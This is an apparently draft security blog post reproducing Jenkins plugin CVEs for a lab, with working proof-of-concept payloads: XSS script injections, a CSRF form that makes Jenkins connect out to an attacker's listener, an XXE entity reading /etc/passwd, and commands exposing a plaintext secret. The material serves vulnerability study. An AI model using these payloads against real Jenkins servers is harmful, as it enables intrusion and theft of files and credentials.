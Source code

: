 ```yaml
---
layout: post
title: Jenkins - Vulnerabilities analysis part 4
tags: [Jenkins, Security, CI, CD]
description: "Jenkins - Vulnerabilities analysis part 4"
---
```


This is still in redaction. I'll add more content when I have found plugins vulnerable and can reproduce the vulnerability. The exploit part will be more verbose, for now that will do :)

The docker image, which will be the lab, with all the plugins already installed, will be available soon.

Search for vulnerable plugins :
- [https://www.jenkins.io/security/advisories/](https://www.jenkins.io/security/advisories/)

* * *

## XSS
### Stored XSS vulnerability in Dashboard View Plugin
- CVE-2022-27197
	- Dashboard View Plugin 2.18
	- [https://plugins.jenkins.io/dashboard-view/](https://plugins.jenkins.io/dashboard-view/)
	- Requires Jenkins 2.277.1

#### Exploit
- New view - name it - select dashboard
- add a Portlets at the top of the page
- Iframe source url --> javascript:alert("Liodeus")

### Reflected XSS vulnerability in Wall Display Master Project Plugin
- CVE-2019-10376 
	-  Wall Display Master Project 0.6.34
	- [https://plugins.jenkins.io/jenkinswalldisplay/](https://plugins.jenkins.io/jenkinswalldisplay/) 
	- Requires Jenkins 1.580

#### Exploit
- click Wall Display
- `customTheme=</style><script>alert("Liodeus")</script>`

* * *

## CSRF
### CSRF vulnerability in Publish Over SSH Plugin
- CVE-2022-23111 
	- Publish Over SSH Plugin 1.22
	- https://plugins.jenkins.io/publish-over-ssh/
	- Requires Jenkins 2.263.1

#### Exploit
- sudo netcat -lvnp 22
- host this html on a webpage (change the IP by yours)

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8080/descriptorByName/jenkins.plugins.publish_over_ssh.BapSshHostConfiguration/testConnection">
      <input type="hidden" name="name" value="test" />
      <input type="hidden" name="hostname" value="192&#46;168&#46;1&#46;117" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="port" value="22" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
- Go to the webpage, click on the button Submit request
- If you already are connected to Jenkins, you should see a connection on your listener
- If you are not connected, Jenkins ask you to connect, then the request get executed and you should see a connection on your listener

* * *

## XXE
### XXE vulnerability in Performance Plugin 
- CVE-2021-21701
	- pom2config plugin 1.2
	- [https://plugins.jenkins.io/pom2config/](https://plugins.jenkins.io/pom2config/)
	- Requires Jenkins 1.509.1

#### Exploit
- Create a new freestyle project
- Go on it - click Pom2Config
- Craft a .xml with exploit

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "/etc/passwd" >]>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <description>&xxe;</description>
</project>
```

* * *

## Secret stored in plain text
### Client Secret stored in plain text by GitLab Authentication Plugin
- CVE-2022-27206
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1

#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- Client ID --> ThisIsASecretID
- Client Secret --> ThisIsASecretPASSWORD
- docker ps - get docker:dind name
- docker exec -it pensive_shannon /bin/bash
- cd /var/jenkins_home
- cat config.xml
- Secret in plain text

* * *

## Path traversal
### Path traversal vulnerability in Publish Over SSH Plugin
- CVE-2022-23113
	- Publish Over SSH Plugin 1.22
	- https://plugins.jenkins.io/publish-over-ssh/
	- Requires Jenkins 2.263.1

#### Exploit
- Manage Jenkins - Configure System - Go to "Publish over SSH"
- In the "Path to key" box, enter a file to check for existance
- If the file doesn't exist on the system : No such file : 'fileName'
- If the file exist : No error

* * *

## Bonus
### Open redirect vulnerability in GitLab Authentication Plugin 
- CVE-2022-25196
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1

#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- GitLab Web URI --> URL
- Save
- Go to localhost:8080
- You are redirect to URL
